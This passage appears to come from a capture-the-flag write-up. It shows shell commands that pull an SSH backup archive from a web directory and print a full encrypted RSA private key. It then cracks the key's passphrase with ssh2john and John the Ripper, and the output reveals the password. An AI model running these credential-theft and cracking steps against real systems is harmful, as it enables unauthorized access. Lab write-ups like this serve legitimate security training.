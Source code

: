     :::text
    $ cp /home/david/public_www/protected-file-area/backup-ssh-identity-files.tgz /tmp/
    cp /home/david/public_www/protected-file-area/backup-ssh-identity-files.tgz /tmp/
    $ cd /tmp/
    cd /tmp/
    $ tar xvf backup-ssh-identity-files.tgz
    tar xvf backup-ssh-identity-files.tgz
    home/david/.ssh/
    home/david/.ssh/authorized_keys
    home/david/.ssh/id_rsa
    home/david/.ssh/id_rsa.pub
    $ cat home/david/.ssh/id_rsa
    cat home/david/.ssh/id_rsa
    -----BEGIN RSA PRIVATE KEY-----
    Proc-Type: 4,ENCRYPTED
    DEK-Info: AES-128-CBC,477EEFFBA56F9D283D349033D5D08C4F

    seyeH/feG19TlUaMdvHZK/2qfy8pwwdr9sg75x4hPpJJ8YauhWorCN4LPJV+wfCG
    tuiBPfZy+ZPklLkOneIggoruLkVGW4k4651pwekZnjsT8IMM3jndLNSRkjxCTX3W
    KzW9VFPujSQZnHM9Jho6J8O8LTzl+s6GjPpFxjo2Ar2nPwjofdQejPBeO7kXwDFU
    RJUpcsAtpHAbXaJI9LFyX8IhQ8frTOOLuBMmuSEwhz9KVjw2kiLBLyKS+sUT9/V7
    HHVHW47Y/EVFgrEXKu0OP8rFtYULQ+7k7nfb7fHIgKJ/6QYZe69r0AXEOtv44zIc
    Y1OMGryQp5CVztcCHLyS/9GsRB0d0TtlqY2LXk+1nuYPyyZJhyngE7bP9jsp+hec
    dTRqVqTnP7zI8GyKTV+KNgA0m7UWQNS+JgqvSQ9YDjZIwFlA8jxJP9HsuWWXT0ZN
    6pmYZc/rNkCEl2l/oJbaJB3jP/1GWzo/q5JXA6jjyrd9xZDN5bX2E2gzdcCPd5qO
    xwzna6js2kMdCxIRNVErnvSGBIBS0s/OnXpHnJTjMrkqgrPWCeLAf0xEPTgktqi1
    Q2IMJqhW9LkUs48s+z72eAhl8naEfgn+fbQm5MMZ/x6BCuxSNWAFqnuj4RALjdn6
    i27gesRkxxnSMZ5DmQXMrrIBuuLJ6gHgjruaCpdh5HuEHEfUFqnbJobJA3Nev54T
    fzeAtR8rVJHlCuo5jmu6hitqGsjyHFJ/hSFYtbO5CmZR0hMWl1zVQ3CbNhjeIwFA
    bzgSzzJdKYbGD9tyfK3z3RckVhgVDgEMFRB5HqC+yHDyRb+U5ka3LclgT1rO+2so
    uDi6fXyvABX+e4E4lwJZoBtHk/NqMvDTeb9tdNOkVbTdFc2kWtz98VF9yoN82u8I
    Ak/KOnp7lzHnR07dvdD61RzHkm37rvTYrUexaHJ458dHT36rfUxafe81v6l6RM8s
    9CBrEp+LKAA2JrK5P20BrqFuPfWXvFtROLYepG9eHNFeN4uMsuT/55lbfn5S41/U
    rGw0txYInVmeLR0RJO37b3/haSIrycak8LZzFSPUNuwqFcbxR8QJFqqLxhaMztua
    4mOqrAeGFPP8DSgY3TCloRM0Hi/MzHPUIctxHV2RbYO/6TDHfz+Z26ntXPzuAgRU
    /8Gzgw56EyHDaTgNtqYadXruYJ1iNDyArEAu+KvVZhYlYjhSLFfo2yRdOuGBm9AX
    JPNeaxw0DX8UwGbAQyU0k49ePBFeEgQh9NEcYegCoHluaqpafxYx2c5MpY1nRg8+
    XBzbLF9pcMxZiAWrs4bWUqAodXfEU6FZv7dsatTa9lwH04aj/5qxEbJuwuAuW5Lh
    hORAZvbHuIxCzneqqRjS4tNRm0kF9uI5WkfK1eLMO3gXtVffO6vDD3mcTNL1pQuf
    SP0GqvQ1diBixPMx+YkiimRggUwcGnd3lRBBQ2MNwWt59Rri3Z4Ai0pfb1K7TvOM
    j1aQ4bQmVX8uBoqbPvW0/oQjkbCvfR4Xv6Q+cba/FnGNZxhHR8jcH80VaNS469tt
    VeYniFU/TGnRKDYLQH2x0ni1tBf0wKOLERY0CbGDcquzRoWjAmTN/PV2VbEKKD/w
    -----END RSA PRIVATE KEY-----

We then try to connect to the box using the key with david account but the SSH
key is password protected. We use ssh2john to get a crackable hash and run john
with the rockyou dictionary on it.

    ::text
    python /usr/bin/ssh2john id_rsa > id_rsa.hash
    john  id_rsa.hash -w=~/tools/password_lists/rockyou.txt
    Warning: detected hash type "SSH", but the string is also recognized as "ssh-opencl"
    Use the "--format=ssh-opencl" option to force loading these as that type instead
    Using default input encoding: UTF-8
    Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
    Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
    Cost 2 (iteration count) is 1 for all loaded hashes
    Will run 4 OpenMP threads
    Note: This format may emit false positives, so it will keep trying even after
    finding a possible candidate.
    Press 'q' or Ctrl-C to abort, almost any other key for status
    hunter           (id_rsa)
    Warning: Only 1 candidate left, minimum 4 needed for performance.
    1g 0:00:00:04 DONE (2019-11-27 15:12) 0.2061g/s 2957Kp/s 2957Kc/s 2957KC/s *7¡Vamos!
    Session completed